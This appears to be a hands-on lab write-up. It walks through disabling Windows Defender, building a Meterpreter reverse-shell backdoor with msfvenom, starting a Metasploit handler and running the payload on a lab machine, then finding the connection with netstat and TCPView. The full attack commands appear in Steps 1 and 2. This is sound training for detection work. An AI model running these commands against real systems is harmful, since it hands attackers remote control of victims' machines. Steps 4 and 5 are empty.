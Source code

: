 # WarmUp

Create a malware with msfvenom, execute it on the victim machine and investigate with built-in win tools
Let's start it.

### Step 1

Open a Terminal as Administrator and select "Yes" at UAC prompt.
In the default Powershell window, run the following command to disable Defedner. 
Remember, our goal here is not bypass endpoint protection.

`Set-MpPreference -DisableRealtimeMonitoring $true`

Check if Defender is really turned off with (should be False):

`Get-MpComputerStatus | select RealTimeProtectionEnabled`

### Step 2

First, open an Terminal window as Administrator (CTRL + Click)
![](attachments/warmup_01.png)

Click Yes at the User the User Account Control Prompt.

Open a Kali linux command prompt: 
![](attachments/warmup_02.png)

On the Kali console, check the IP address with:

```bash
ifconfig
```

![](attachments/warmup_03.png)

Mark the IP address of the Kali linux machine eth0 interface. Your IP will be DIFFERENT!

Run the following command to create a simple backdoor.

`sudo su -`

`msfvenom --platform Windows -a x86 -p windows/meterpreter/reverse_tcp lhost=<YOUR ETH0 IP> lport=4444 -f exe -o /tmp/beliveme.exe`

`ls -l /tmp/beliveme.exe`

Copy the malware to the share folder accesible by the Victim machine
`cp /tmp/beliveme.exe /mnt/c/temp`

`ls -l /mnt/c/temp/`

Now, we need to start the handler on attacker (Linux) machine. We need one more shell to the Linux box. Select the down carrot from the upper tabs on the Winodws Terminal and select kali-linux

![](attachments/warmup_04.png)

Become a root:

`sudo su -`

Start the metasploit handler:

$`msfconsole -q`

msf6 > `use exploit/multi/handler`

msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

msf6 exploit(multi/handler) > `set LHOST <YOUR ETH0 IP>` Your IP will be DIFFERENT

msf6 exploit(multi/handler) > `exploit`
![](attachments/warmup_05.png)

Open a Windows command prompt, by selecting the down carrot from the the Windows Terminal.
Once it's opened, run these commands:

`cd \temp`

`beliveme.exe`

You should have similar output:

![](attachments/warmup_06.png)

### step 3

Now that we have a backdoor connections, let's investigate it. We know what to look for..this time! :)
Have an administrator terminal session ready and execute the following command:
TIPP1: -b switch needs admin rights and it's very usefull. It shows the executable involved in creating each connections or listening port.

```cmd
netstat -naob
```
![](attachments/warmup_07.png)

TIPP2: You can check the help for netstat (or any other commands) cmd switches

```cmd
netstat /?
```
![](attachments/warmup_08.png)

TIPP3: List only the ESTABLISHED connections:
```cmd
netstat -naob | findstr "ESTABLISHED"
```

TIPP4: List only the LISTENING connections:
```cmd
netstat -naob | findstr "LISTENING"
```

If you have RDP (or similar) access you can use TCPView application from the SysInternals package

![](attachments/warmup_20.png)

If you look closer, you can find the connection (because we know what to look for) made by our supper evil beliveme.exe malware.

![](attachments/warmup_09.png)


### step 4

### step 5
